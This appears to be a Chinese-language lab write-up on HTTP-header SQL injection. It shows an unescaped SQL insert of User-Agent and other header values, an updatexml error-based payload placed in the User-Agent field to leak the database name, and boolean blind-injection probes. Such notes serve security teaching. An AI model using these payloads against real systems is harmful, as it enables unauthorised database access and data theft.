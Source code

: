 sql语句：

```sql
//这里把http的头信息存到数据库里面去了，但是存进去之前没有进行转义，导致SQL注入漏洞
insert httpinfo(userid,ipaddress,useragent,httpaccept,remoteport) values('$is_login_id','$remoteipadd','$useragent','$httpaccept','$remoteport')
```

原理：

http-header消息主要分成四个部分：general header ,request header ,response header,entity header。

http-header注入漏洞正是由于后台把超文本传输头中的一些信息拿去拼接到sql语句中又不做安全处理造成的。

过程：

用user agent这个字段来进行测试。删除整个字段，输入payload

![image-20221203202703705](assets/image-20221203202703705.png)

*注：此数据包非第一次request的包，在中间过程产生的包。

```sql
'
1'or updatexml(1,concat(0x7e,database()),1) or'
```

注入成功，之后可使用updatexml方法获取数据库中用户数据

#### 盲注(base on boolian)

```sql
12
#success
12'
'
#error
'
12'+and+'1'='1
'
#success
```
